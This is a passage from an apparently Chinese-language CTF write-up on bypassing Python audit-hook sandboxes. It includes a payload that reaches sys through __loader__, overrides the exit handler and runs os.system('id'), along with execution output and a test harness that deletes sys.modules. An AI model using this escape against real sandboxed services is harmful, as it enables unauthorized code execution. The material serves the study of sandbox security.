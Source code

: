 ```python
sys = __builtins__["__loader__"].load_module('sys')
```

我们可以构造代码如下

```python
tmp = """
sys = __builtins__["__loader__"].load_module('sys')
sys.modules['__main__'].__exit = lambda x : print("[+] bypassed!")
import os
os.system("id")
"""
```

执行发现可以成功将`__exit`替换:

```
[*] exec (<code object <module> at 0x7ffff77d85b0, file "<user input>", line 2>,)
[*] os.system (b'id',)
[+] bypassed!
...
```

至此我们就可以任意次触发 audit 函数而不用担心程序退出了, 接下来我们要做的解决`sys.modules`被删除的问题.

## 2.2. 想办法拿到`os`模块

关于`sys.modules`的作用\[8\]中是这么说的:

> Python import 的步骤
python 所有加载的模块信息都存放在 sys.modules 结构中，当 import 一个模块时，会按如下步骤来进行
如果是 import A，检查 sys.modules 中是否已经有 A，如果有则不加载，如果没有则为 A 创建 module 对象，并加载 A
如果是 from A import B，先为 A 创建 module 对象，再解析A，从中寻找B并填充到 A 的 dict 中

我们更新测试代码, 加入删除`sys.modules`代码:

```python
import sys
from os import _exit as __exit

def audit(name, args):
    print(f"[*] {name} {args}")
    if not audit.did_exec and name == 'exec':
        audit.did_exec = True
    else:
        __exit(1)
audit.did_exec = False

tmp = """
"""

code = compile(tmp, '<user input>', 'exec')
for module in set(sys.modules.keys()):
    if module in sys.modules:
        del sys.modules[module]
sys.addaudithook(audit)
exec(code, {}, {})
```
